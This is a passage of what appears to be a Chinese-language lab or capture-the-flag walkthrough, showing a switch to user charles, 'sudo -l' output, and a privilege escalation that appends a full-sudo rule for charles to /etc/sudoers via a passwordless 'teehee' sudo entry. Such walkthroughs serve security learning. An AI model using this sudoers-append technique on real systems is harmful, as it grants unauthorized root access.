 注意：在/etc/passwd中的用户charles是全小写

成功切换到charles



### 执行sudo -l

```
sudo -l
```

![image-20250314140551878](assets/image-20250314140551878.png)

无密码执行teehee



### teehee提权

#### 第一种

往/etc/sudoers追加内容

```
echo "charles ALL=(ALL:ALL) ALL" | sudo teehee -a /etc/sudoers
sudo -l
```

![image-20250314142053758](assets/image-20250314142053758.png)
